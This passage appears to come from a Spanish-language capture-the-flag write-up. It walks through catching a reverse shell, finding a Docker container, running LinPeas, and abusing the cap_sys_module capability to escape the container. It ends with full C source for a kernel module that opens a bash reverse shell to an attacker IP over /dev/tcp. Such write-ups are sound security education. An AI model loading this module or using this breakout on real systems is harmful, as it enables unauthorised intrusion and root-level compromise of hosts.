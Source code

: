 Hacemos el curl
![](Pasted%20image%2020221204184923.png)

Y vemos que por el puerto en el que estabamos en escucha nos llega la reverse shell
![](Pasted%20image%2020221204184945.png)

Vemos nuestra ip para ver si estamos en un docker y efectivamente
![](Pasted%20image%2020221204184955.png)

Nos descargamos LinPeas, el cual es una utilidad de reconocimineto del sistema que podemos encontrar en github y nos la compartimos con un servidor web python como en el anterior ejemplo para descargarnoslo en la maquina victima, despues le damos permisos de ejecución y lo ejecutamos. Atendiendo al resultado vemos que está asignada la capabilitie `cap_sys_module`
![](Pasted%20image%2020221204185009.png)

Con el siguiente comando podemos listar las capabilities
![](Pasted%20image%2020221204185018.png)

Buscando en google encontramos esta pagina la cual nos explica bastante bien como funciona y como abusar de la capabilitie  
[https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)

En este caso tenemos que crearnos el siguiente archivo con nuestra ip y puerto para intentar cargar un modulo kernel que nos entable una reverse shell
![](Pasted%20image%2020221204185028.png)

```c
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.22/4444 0>&1", NULL};

static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL};

static int __init reverse_shell_init(void) {

	return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {

	printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
